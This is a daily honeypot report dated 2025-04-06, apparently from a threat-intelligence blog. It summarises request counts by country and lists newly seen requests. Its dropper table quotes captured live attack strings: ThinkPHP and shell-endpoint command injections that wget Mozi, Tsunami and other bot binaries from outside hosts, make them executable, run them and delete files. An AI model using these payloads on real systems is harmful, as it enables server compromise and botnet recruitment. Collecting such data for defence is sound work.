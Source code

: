 ```yaml
---
title: "Report: 2025-04-06 "
date: 2025-04-06
desciption: "Report: 2025-04-06" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-06 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 12 stage 1 IP address(es), linked to 8 dropper URL(s).  

There are 14 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1678 requests were recorded during the day, originating from 12 different countries, with a peak of 475 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| SG               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| PT               | Dubai              |
| GB               | Dubai              |
| GR               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                     |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 117.72.64.87    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                |
| 92.46.231.58    | GET /shell?cd+/tmp;rm+-rf+*;wget+http://92.46.231.58:47963/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(cd+/tmp;wget+http://31.170.22.205/dl18;busybox+wget+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                      |
| 36.41.184.119   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1   |
| 123.157.136.106 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1               |
| 27.128.156.189  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1               |
| 84.2.63.245     | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 60.249.212.60   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.84.71.195/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1     |
| 61.61.62.201    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1   |
| 217.160.89.196  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://45.137.70.156/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1     |
| 58.96.82.116    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 92.52.235.131   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                               |
|----:|----------------------:|:--------------------------------------------------------------------------------------------------------------------------------------|
|  25 |                     4 | GET http://ip-api.com/json/ HTTP/1.1                                                                                                  |
| 203 |                     2 | info                                                                                                                                  |
| 227 |                     1 | *IDN?                                                                                                                                 |
| 426 |                     1 | \x00\x0E8\x9B\xD9\xA2\xD6\xAE\x01\x97\x0F\x00\x00\x00\x00\x00                                                                         |
| 443 |                     1 | GET /socket.io/1/?t=1743975286971 HTTP/1.1                                                                                            |
| 465 |                     1 | GET /BFqc HTTP/1.1                                                                                                                    |
| 468 |                     1 | \x00\x0E83\xBA\x06\x1A\xE0\x15Je\x00\x00\x00\x00\x00                                                                                  |
| 475 |                     1 | GET /cha0 HTTP/1.1                                                                                                                    |
| 515 |                     1 | POST /ucmdb-ui/cms/loginRequest.do;?customerID=1&isEncoded=false&userName=diagnostics&password=YWRtaW4=&ldapServerName=UCMDB HTTP/1.1 |
| 520 |                     1 | \x00\x0E8Q\x10\x86OX\xA3\x22\xA6\x00\x00\x00\x00\x00                                                                                  |
| 537 |                     1 | \x00\x0E8\xC6\xB4'\x09\xA8\xD8\x82\x9A\x00\x00\x00\x00\x00                                                                            |
| 568 |                     1 | GET /DjMa HTTP/1.1                                                                                                                    |
| 594 |                     1 | GET /OExP HTTP/1.1                                                                                                                    |
| 616 |                     1 | \x00\x0E8(\x07\xE1\xD8\xCCX\x9A;\x00\x00\x00\x00\x00                                                                                  |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   475 | GB                 |
|  1 |                   196 | NL                 |
|  2 |                   138 | US                 |
|  3 |                   117 | BG                 |
|  4 |                   105 | IL                 |
|  5 |                    81 | DE                 |
|  6 |                    74 | PL                 |
|  7 |                    62 | CN                 |
|  8 |                    55 | SC                 |
|  9 |                    49 | SG                 |
| 10 |                    40 | PT                 |
| 11 |                    36 | GR                 |
| 12 |                    28 | AZ                 |
| 13 |                    24 | JP                 |
| 14 |                    21 | NG                 |
| 15 |                    19 | UA                 |
| 16 |                    17 | HK                 |
| 17 |                    17 | ID                 |
| 18 |                    15 | LV                 |
| 19 |                    14 | IN                 |
| 20 |                    12 | CH                 |
| 21 |                     9 | CA                 |
| 22 |                     8 | FR                 |
| 23 |                     8 | VN                 |
| 24 |                     7 | LT                 |
| 25 |                     6 | BE                 |
| 26 |                     5 | RU                 |
| 27 |                     4 | MD                 |
| 28 |                     4 | AO                 |
| 29 |                     4 | HR                 |
| 30 |                     4 | HU                 |
| 31 |                     2 | IT                 |
| 32 |                     2 | ES                 |
| 33 |                     2 | AU                 |
| 34 |                     2 | BR                 |
| 35 |                     2 | KR                 |
| 36 |                     2 | EC                 |
| 37 |                     2 | GH                 |
| 38 |                     2 | TW                 |
| 39 |                     2 | AR                 |
| 40 |                     1 | ZA                 |
| 41 |                     1 | MC                 |
| 42 |                     1 | CZ                 |
| 43 |                     1 | AE                 |
| 44 |                     1 | NO                 |
| 45 |                     1 | KZ                 |
